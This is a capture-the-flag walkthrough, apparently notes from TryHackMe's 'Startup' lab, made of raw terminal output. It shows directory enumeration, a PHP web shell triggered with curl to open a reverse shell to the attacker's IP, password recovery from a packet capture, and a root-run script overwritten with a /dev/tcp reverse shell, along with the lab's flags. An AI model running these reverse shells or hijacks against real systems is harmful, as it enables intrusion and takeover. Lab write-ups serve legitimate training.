


TryHackMe بيئة تدريبية مصرح بها
StartUP THM Machine
توثيق تقني محفوظ من المصدر الأصلي في Notion، يشمل الخطوات والأوامر والنتائج ولقطات الشاشة المتاحة.
العودة إلى تقارير CTFTitle {Spice Hut}



──(kali㉿kali)-[~/Downloads]
└─$ strings /incidents/suspicious.pcapng | grep -C 5 -i "lennie"
strings: '/incidents/suspicious.pcapng': No such file
┌──(kali㉿kali)-[~/Downloads]
└─$ strings suspicious.pcapng | grep -C 5 -i "lennie"
"bK$
"bK$
"bK$
"bK$
"bK$
Qcd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$
lennie
www-data@startup:/home$
cd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ |
.?:MD
sudo -l
sudo -l
[sudo] password for www-data:
--
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
vagrant:x:1000:1000:,,,:/home/vagrant:/bin/bash
ftp:x:112:118:ftp daemon,,,:/srv/ftp:/bin/false
lennie:x:1002:1002::/home/lennie:
ftpsecure:x:1003:1003::/home/ftpsecure:
www-data@startup:/home$
exit
exit
exit
┌──(kali㉿kali)-[~/Downloads]
└─$ strings suspicious.pcapng | grep -C 5 -i "pass"
bash: cd: lennie: Permission denied
www-data@startup:/home$ |
.?:MD
sudo -l
sudo -l
[sudo] password for www-data:
@ c4ntg3t3n0ughsp1c3
6% @
Sorry, try again.
[sudo] password for www-data:
^/Sorry, try again.
[sudo] password for www-data:
c4ntg3t3n0ughsp1c3
sudo: 3 incorrect password attempts
www-data@startup:/home$ |
cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
┌──(kali㉿kali)-[~/Downloads]
└─$ id
uid=1000(kali) gid=1000(kali) groups=1000(kali),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),100(users),101(netdev),107(bluetooth),115(scanner),127(lpadmin),135(wireshark),137(kaboxer),987(ollama)
┌──(kali㉿kali)-[~/Downloads]
└─$ whoami
kali
┌──(kali㉿kali)-[~/Downloads]
└─$ ssh lennie@10.144.187.136
ssh: connect to host 10.144.187.136 port 22: Connection refused
┌──(kali㉿kali)-[~/Downloads]
└─$ nc -lvnp 5555
listening on [any] 5555 ...
connect to [192.168.135.3] from (UNKNOWN) [10.114.187.136] 55700
bash: cannot set terminal process group (2465): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~# python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
root@startup:~# ^Z
zsh: suspended nc -lvnp 5555
┌──(kali㉿kali)-[~/Downloads]
└─$ stty raw -echo; fg
[1] + continued nc -lvnp 5555
root@startup:~# ls
root.txt
root@startup:~# cat root.txt
THM{f963aaa6a430f210222158ae15c3d76d}
root@startup:~# ls
root.txt
root@startup:~# cd /
root@startup:/# ls
bin home lib mnt root srv vagrant
boot incidents lib64 opt run sys var
dev initrd.img lost+found proc sbin tmp vmlinuz
etc initrd.img.old media recipe.txt snap usr vmlinuz.old
root@startup:/# ^C
root@startup:/# exit
exit
root@startup:~# exit
exit
┌──(kali㉿kali)-[~/Downloads]
└─$ gobuster dir -u http://10.114.187.136:80/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://10.114.187.136:80/
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.6
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta (Status: 403) [Size: 279]
/.htpasswd (Status: 403) [Size: 279]
/.htaccess (Status: 403) [Size: 279]
/files (Status: 301) [Size: 316] [--> http://10.114.187.136/files/]
/index.html (Status: 200) [Size: 808]
/server-status (Status: 403) [Size: 279]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
┌──(kali㉿kali)-[~/Downloads]
└─$ nano hel.php
┌──(kali㉿kali)-[~/Downloads]
└─$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
inet 127.0.0.1/8 scope host lo
valid_lft forever preferred_lft forever
inet6 ::1/128 scope host noprefixroute
valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
link/ether 00:0c:29:0d:2b:ae brd ff:ff:ff:ff:ff:ff
inet 192.168.164.129/24 brd 192.168.164.255 scope global dynamic noprefixroute eth0
valid_lft 1684sec preferred_lft 1684sec
inet6 fe80::d910:4822:7684:e961/64 scope link noprefixroute
valid_lft forever preferred_lft forever
3: tailscale0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1280 qdisc fq_codel state UNKNOWN group default qlen 500
link/none
inet6 fe80::5493:cad1:5599:dff2/64 scope link stable-privacy proto kernel_ll
valid_lft forever preferred_lft forever
4: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1380 qdisc fq_codel state UNKNOWN group default qlen 500
link/none
inet 192.168.135.3/17 brd 192.168.255.255 scope global tun0
valid_lft forever preferred_lft forever
inet6 fe80::a2e3:4eb7:3864:a953/64 scope link stable-privacy proto kernel_ll
valid_lft forever preferred_lft forever
┌──(kali㉿kali)-[~/Downloads]
└─$ curl -G --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/192.168.135.3/4444 0>&1'" http://10.114.187.136/files/ftp/hel.php
www-data@startup:/$ ls -la
total 100
drwxr-xr-x 25 root root 4096 May 27 18:46 .
drwxr-xr-x 25 root root 4096 May 27 18:46 ..
drwxr-xr-x 2 root root 4096 Sep 25 2020 bin
drwxr-xr-x 3 root root 4096 Sep 25 2020 boot
drwxr-xr-x 16 root root 3560 May 27 18:46 dev
drwxr-xr-x 96 root root 4096 Nov 12 2020 etc
drwxr-xr-x 3 root root 4096 Nov 12 2020 home
drwxr-xr-x 2 www-data www-data 4096 Nov 12 2020 incidents
lrwxrwxrwx 1 root root 33 Sep 25 2020 initrd.img -> boot/initrd.img-4.4.0-190-generic
lrwxrwxrwx 1 root root 33 Sep 25 2020 initrd.img.old -> boot/initrd.img-4.4.0-190-generic
drwxr-xr-x 22 root root 4096 Sep 25 2020 lib
drwxr-xr-x 2 root root 4096 Sep 25 2020 lib64
drwx------ 2 root root 16384 Sep 25 2020 lost+found
drwxr-xr-x 2 root root 4096 Sep 25 2020 media
drwxr-xr-x 2 root root 4096 Sep 25 2020 mnt
drwxr-xr-x 2 root root 4096 Sep 25 2020 opt
dr-xr-xr-x 117 root root 0 May 27 18:46 proc
-rw-r--r-- 1 www-data www-data 136 Nov 12 2020 recipe.txt
drwx------ 4 root root 4096 Nov 12 2020 root
drwxr-xr-x 25 root root 900 May 27 19:07 run
drwxr-xr-x 2 root root 4096 Sep 25 2020 sbin
drwxr-xr-x 2 root root 4096 Nov 12 2020 snap
drwxr-xr-x 3 root root 4096 Nov 12 2020 srv
dr-xr-xr-x 13 root root 0 May 27 19:46 sys
drwxrwxrwt 7 root root 4096 May 27 20:20 tmp
drwxr-xr-x 10 root root 4096 Sep 25 2020 usr
drwxr-xr-x 2 root root 4096 Nov 12 2020 vagrant
drwxr-xr-x 14 root root 4096 Nov 12 2020 var
lrwxrwxrwx 1 root root 30 Sep 25 2020 vmlinuz -> boot/vmlinuz-4.4.0-190-generic
lrwxrwxrwx 1 root root 30 Sep 25 2020 vmlinuz.old -> boot/vmlinuz-4.4.0-190-generic
www-data@startup:/$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
vagrant:x:1000:1000:,,,:/home/vagrant:/bin/bash
ftp:x:112:118:ftp daemon,,,:/srv/ftp:/bin/false
lennie:x:1002:1002::/home/lennie:
ftpsecure:x:1003:1003::/home/ftpsecure:
www-data@startup:/$ cat /etc/passwd | cut ":" -f 1
cut: ':': No such file or directory
www-data@startup:/$ cat /etc/passwd | cut -d ":" -f 1
root
daemon
bin
sys
sync
games
man
lp
mail
news
uucp
proxy
www-data
backup
list
irc
gnats
nobody
systemd-timesync
systemd-network
systemd-resolve
systemd-bus-proxy
syslog
_apt
lxd
messagebus
uuidd
dnsmasq
sshd
pollinate
vagrant
ftp
lennie
ftpsecure
www-data@startup:/$ cat /etc/passwd |grep -v "nologin"| cut -d ":" -f 1
root
sync
systemd-timesync
systemd-network
systemd-resolve
systemd-bus-proxy
syslog
_apt
lxd
messagebus
uuidd
dnsmasq
pollinate
vagrant
ftp
lennie
ftpsecure
www-data@startup:/$ cat /etc/shadwo
cat: /etc/shadwo: No such file or directory
www-data@startup:/$
www-data@startup:/$ cat /etc/gshadwo
cat: /etc/gshadwo: No such file or directory
www-data@startup:/$ cat /etc/shadow
cat: /etc/shadow: Permission denied
www-data@startup:/$ whoami
www-data
www-data@startup:/$ sudo -l
sudo: unable to resolve host startup
[sudo] password for www-data:
Sorry, try again.
[sudo] password for www-data:
Sorry, try again.
[sudo] password for www-data:
sudo: 3 incorrect password attempts
www-data@startup:/$ ls
bin home lib mnt root srv vagrant
boot incidents lib64 opt run sys var
dev initrd.img lost+found proc sbin tmp vmlinuz
etc initrd.img.old media recipe.txt snap usr vmlinuz.old
www-data@startup:/$ uname -a
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
www-data@startup:/$ su - lennie
Password:
$ id
uid=1002(lennie) gid=1002(lennie) groups=1002(lennie)
$ cd /home/lennie/
$ ls
Documents scripts user.txt
$ cat user.txt
THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
$ cat ~/recipe.txt
cat: /home/lennie/recipe.txt: No such file or directory
$ cd /
$ ls
bin home lib mnt root srv vagrant
boot incidents lib64 opt run sys var
dev initrd.img lost+found proc sbin tmp vmlinuz
etc initrd.img.old media recipe.txt snap usr vmlinuz.old
$ cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
$ cd /home/lennie/
$ ld
-su: ld: command not found
$ ls
Documents scripts user.txt
$ cd Documents
$ ls
concern.txt list.txt note.txt
$ cat
cat concern.txt
cat concern.txt
q^C
$ cat concern.txt
I got banned from your library for moving the "C programming language" book into the horror section. Is there a way I can appeal? --Lennie
$ cat list.txt
Shoppinglist: Cyberpunk 2077 | Milk | Dog food
$ cat note.txt
Reminders: Talk to Inclinant about our lacking security, hire a web developer, delete incident logs.
$ ls
concern.txt list.txt note.txt
$ cd .. && cd ..
$ ls
lennie
$ cd ..
$ ls
bin home lib mnt root srv vagrant
boot incidents lib64 opt run sys var
dev initrd.img lost+found proc sbin tmp vmlinuz
etc initrd.img.old media recipe.txt snap usr vmlinuz.old
$ ls -l root
ls: cannot open directory 'root': Permission denied
$ cd home/lennie/scripts/
$ ls
planner.sh startup_list.txt
$ cat startup_list.txt
$ cat planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
$ ls -la
total 16
drwxr-xr-x 2 root root 4096 Nov 12 2020 .
drwx------ 4 lennie lennie 4096 Nov 12 2020 ..
-rwxr-xr-x 1 root root 77 Nov 12 2020 planner.sh
-rw-r--r-- 1 root root 1 May 27 20:54 startup_list.txt
$ ls -la /etc | grep -i "*print.sh*"
$ ls -la /etc | grep -i "print.sh*"
-rwx------ 1 lennie lennie 25 Nov 12 2020 print.sh
$ echo 'bash -i >& /dev/tcp/192.168.135.3/5555 0>&1" > /etc/print.sh
> ^C
$ echo 'bash -i >& /dev/tcp/192.168.135.3/5555 0>&1' > /etc/print.sh
$